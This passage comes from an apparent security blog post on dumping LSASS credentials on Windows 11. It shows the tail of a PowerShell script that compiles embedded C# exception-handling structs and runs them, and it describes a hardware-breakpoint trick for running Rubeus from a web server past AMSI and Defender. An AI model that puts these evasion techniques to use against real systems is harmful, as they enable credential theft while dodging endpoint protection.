 ```powershell
            public uint[] ExceptionInformation;
        }

        [StructLayout(LayoutKind.Sequential)]
        public struct EXCEPTION_POINTERS
        {
            // Pointer to an EXCEPTION_RECORD structure
            public IntPtr pExceptionRecord;

            // Pointer to a CONTEXT64 structure
            public IntPtr pContextRecord;
        }

    }
}
'@

Add-Type -TypeDefinition $cs -Language CSharp
[Test.Program]::Main()
```

![](/assets/posts/2024-05-19-LSASS-Dumping-Windows11/hardware_breakpoint_rubeus.bmp)


When invoking the script from the web server, we observe that it runs Rubeus without triggering any flags. However, to utilize this script effectively, we need to create a .NET assembly capable of performing an LSASS dump. Even with patching AMSI, bypassing Defender remains necessary. Later in the blog, I'll demonstrate how to create a .NET assembly that can be paired with this script.
